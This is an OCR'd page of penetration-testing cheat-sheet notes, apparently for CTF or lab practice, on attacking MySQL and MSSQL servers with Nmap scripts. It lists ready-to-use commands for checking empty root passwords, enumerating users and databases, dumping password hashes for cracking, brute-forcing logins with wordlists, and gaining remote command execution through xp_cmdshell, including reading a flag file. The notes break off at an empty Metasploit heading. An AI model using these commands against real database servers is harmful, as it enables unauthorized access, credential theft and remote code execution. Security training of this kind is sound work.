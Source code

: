 
search mysql_hashdump (this shows the user hashes to crack them later)
  

NMAP SCRIPTS:


–script=mysql-empty-password (to see if we can connect without password)


–script=mysql-info (displays the version & in some capabilities we find InteractiveClient which gives us access to the system via MySQL)


–script=mysql-users –script-args=”mysqluser=’root’,mysqlpass=’’” (enumerate the PC users)


–script=mysql-databases –script-args=”mysqluser=’root’,mysqlpass=’’” (enumerate the databases)


–script=mysql-variables –script-args=”mysqluser=’root’,mysqlpass=’’” (displays the variables of MySQL & in datadir: shows where are them stored in the PC)
  

–script=mysql-audit –script-args=”mysql-audit.username=’root’,mysql-audit.password=’’,mysql-audit.filename=/usr/share/nmap/nselib/data/mysql-cis.audit” (this command shows the properties of MySQL [configs], if = PASS don't grant privileges to users that aren't the admin)

  
–script=mysql-dump-hashes –script-args=”mysqluser=’root’,mysqlpass=’’” (show the hashes of the victim PC users)


	–script=mysql-query –script-args=”query=’select count(*) from books.authors;’,username=’root’,password=’’” (query sintax)


MSSQL (microsoft SQL):

nmap scripts:

ms-sql-info (service info)
  
ms-sql-ntlm-info –script-args mssql.instance-port=1433 (info of the auth. protocol)

ms-sq-brute –script-args userdb=/common_users.txt,passdb=/100-common-passwords.txt (bruteforce users & passwords)

ms-sql-empty-password (info about users who haven't got password)

ms-sql-query –script-args mssql.username=admin,mssql.password=pass,ms-sql-query.query=”SELECT * FROM master..syslogins” -oN output.txt (make querys with credentials)
 
ms-sql-dump-hashes –script-args mssql.username=admin,mssql.password=pass (to display the PC accounts & hashes)

ms-sql-xp-cmdshell –script-args mssql.username=admin,mssql.password=pass,ms-sql-xp-cmdshell.cmd=’ipconfig’ (tries to make RCE)
  
ms-sql-xp-cmdshell –script-args mssql.username=admin,mssql.password=pass,ms-sql-xp-cmdshell.cmd=”type C:\flag.txt” (RCE but for reading files)

  
Metasploit:

  